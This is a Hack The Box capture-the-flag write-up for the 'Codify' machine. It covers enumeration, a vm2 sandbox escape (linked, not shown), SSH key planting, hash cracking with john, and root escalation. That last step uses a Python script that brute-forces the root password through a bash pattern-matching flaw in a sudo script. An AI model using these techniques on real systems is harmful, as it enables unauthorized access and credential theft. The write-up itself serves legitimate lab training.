# Codify - HTB

***

## Scanning and Enumeration

- Ran nmap scans against the target

    

***

## Research

- Did a bit of research on `vm2` and found this
  - https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

***

## Initial Access

- Tried the technique in the exploit and it worked
- Did some digging around and figured out I could write my public key to the `/home/svc/.ssh/authorized_keys` file

    

- This gave me initial access

    

***

## Privilege Escalation

- Tried `sudo -l` and `find / -perm 4000 2>/dev/null` to find some escalation paths but no luck
- Transferred good old `linpeas.sh` to the target and tried that next
    - `linpeas.sh` didn't show any clear escalation paths

- Found a `tickets.db` so went a head and downloaded it

    

- Opened it up with sqlitebrowser and found some hashes for `joshua` user

    

- Grabbed the hash and used john to attempt to crack it, this worked

    

- Using the password, I was able to ssh as the `joshua` user

    

- Found the `user.txt` flag

    

- Ran `sudo -l` and found that `joshua` can run `/opt/scripts/mysql-backup.sh` as root

    

- This is our escalation path, let's explore that script

    

- After analyzing the `mysql-backup.sh` script more closely, I realized the `[[ $DB_PASS == $USER_PASS ]]` statement does pattern matching instead of direct string comparison.
- Since it's doing pattern matching, this can be essentially brute forced.

- I came up with this quick script to do this

```python
import string
import subprocess

# Function to handle password checking
def check_password(p):
    command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    return "Password confirmed!" in result.stdout

# Create a character set with all letters and digits
charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

# Loops through the the charset 
while not is_password_found:
    for char in charset:
        if check_password(password + char):
            password += char
            print(password)
            break
    else:
        is_password_found = True
```

- Running the script gave us the root password, used it to login as root

    

- Found the `root.txt` flag

    
